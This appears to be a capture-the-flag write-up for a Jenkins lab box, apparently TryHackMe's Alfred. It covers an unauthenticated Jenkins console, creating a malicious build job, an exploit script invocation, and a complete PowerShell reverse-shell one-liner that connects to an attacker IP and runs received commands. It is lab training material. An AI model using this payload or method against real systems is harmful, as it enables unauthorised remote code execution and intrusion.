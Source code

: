 ## Vulnerability Identification

### Primary Vulnerability: Unauthenticated Jenkins Access

**Description:** The Jenkins instance on port 8080 is accessible without authentication, allowing unrestricted administrative access.

**Impact:**
• Administrative access to Jenkins dashboard
• Ability to create and execute build jobs
• Code execution on the underlying Windows system
• Potential for privilege escalation

### Secondary Findings

1. **Weak Network Segmentation:** CI/CD system not properly isolated
2. **Excessive Service Privileges:** Jenkins running with elevated permissions
3. **Missing Access Controls:** No authentication barriers on critical services

## Exploitation Methodology

### Phase 1: Initial Access via Jenkins

#### Step 1: Jenkins Reconnaissance

1. Navigate to `http://<target_ip>:8080`
2. Confirm Jenkins dashboard is accessible without authentication
3. Explore available features and administrative functions

#### Step 2: Malicious Build Job Creation

**Manual Approach:**
1. Click "New Item" in Jenkins dashboard
2. Enter job name: `pwn_job`
3. Select "Freestyle project"
4. Configure build steps for payload execution

**Automated Approach:**
Use the provided exploitation script:

```bash
python3 /challenges/web/tryhackme-alfred/exploit.py <target_ip> <local_ip> <local_port>
```

#### Step 3: Reverse Shell Payload

**PowerShell Reverse Shell:**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<local_ip>',<local_port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
